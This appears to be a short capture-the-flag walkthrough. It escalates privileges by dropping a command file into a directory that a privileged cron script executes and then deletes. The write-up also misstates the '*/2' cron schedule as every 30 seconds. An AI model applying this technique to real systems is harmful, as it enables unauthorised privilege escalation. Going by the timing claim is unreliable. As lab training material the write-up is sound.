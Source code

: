 1. Find command to see files with user flag05 permission

1 file : 

#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done


2. when connecting back from ssh, we get a clue : you've got mail

ls /*

shows a mail folder in /var

inside is a level05 file with a crontab instruction

*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

This means the prgm with user flag05 permission is called every 30 sec

3. Adding a file inside /opt/openarenaserver/ to get called by the cron job

echo "getflag > /var/tmp/flag05" > /opt/openarenaserver/getflag

4. cat the flag inside the tmp file

cat /var/tmp/flag05